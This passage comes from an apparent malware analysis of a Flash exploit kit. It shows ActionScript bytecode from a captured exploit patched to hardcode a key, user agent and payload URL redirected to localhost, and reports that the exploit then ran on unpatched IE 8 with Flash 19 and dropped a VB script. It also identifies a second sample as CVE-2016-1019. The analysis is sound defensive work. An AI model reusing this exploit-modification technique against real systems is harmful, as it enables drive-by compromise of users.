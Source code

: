 \pagebreak

So we replace:

```actionscript
getlocal_3
getproperty Qname(PackageNamespace(""),"data")
getproperty Multiname("nw22", ...)
getproperty Multiname("key", ...)
convert_s
coerce_s
setlocal 4

getlocal_3
...
setlocal 5

getlocal_3
...
setlocal_2
```

with:

```actionscript
pushstring "njikqzcmxs"
setlocal 4
pushstring "http://localhost:8080/blur/confusion-backward-doze-14532603"
setlocal 5
pushstring "fake UserAgent"
setlocal_2
```

You may notice we have replaced the original domain with a local domain to figure out
if the URL is reached. We load the modified nw22 Flash file in a Windows 7 x64 IE 8
unpatched with Flash 19.0.0.207 installed. Indeed, the exploit works, a temporary
VB script is created (see section \ref{vb_script}) and the local HTTP server is reached 
with the specified URL.

\pagebreak

## CVE-2016-1019 Flash type confusion

`2_nw23_swf_rc4` is identified as 
[CVE-2016-1019](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1019)
using figure 10 from 360 Security Team blogpost
and TrendMicro 
[blogpost](http://blog.trendmicro.com/trendlabs-security-intelligence/look-adobe-flash-player-cve-2016-1019-zero-day-vulnerability/). 
It gives details on the exploit that match our static analysis, see figure \ref{ConvolutionFilter_u2f}.
